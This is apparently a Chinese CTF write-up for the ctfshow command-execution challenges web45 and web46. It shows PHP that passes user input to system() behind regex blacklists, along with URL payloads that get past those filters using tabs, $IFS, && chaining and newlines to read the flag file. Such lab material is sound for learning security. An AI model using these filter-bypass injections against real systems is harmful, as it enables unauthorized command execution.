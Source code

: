 # ctfshow-web命令执行(web45-60)
# ctfshow-web命令执行(web45-60)
[toc]

## web45 &&等于; tab等于space
**题目描述**

```php
 <?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**

> 观察代码，多过滤了分号与空格，考虑用&&代替分号（&&代表执行两个命令，让后面的命令进入黑洞），用tab制表符代替空格

---
**payload**解法1->`url/?c=tac%09fla?.php%26%26ls`解法2->`url/?c=echo$IFS`tac$IFS*`%0A`  \$IFS代表shell里面的空格
解法3->`url/?c=tac%09fla?.php%0a`

---




## web46 过滤数字\*\$
**题目描述**

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
---
**题目分析**

> 分析源代码，多过滤了\* \$ 数字，因此上题的payload均可用

---
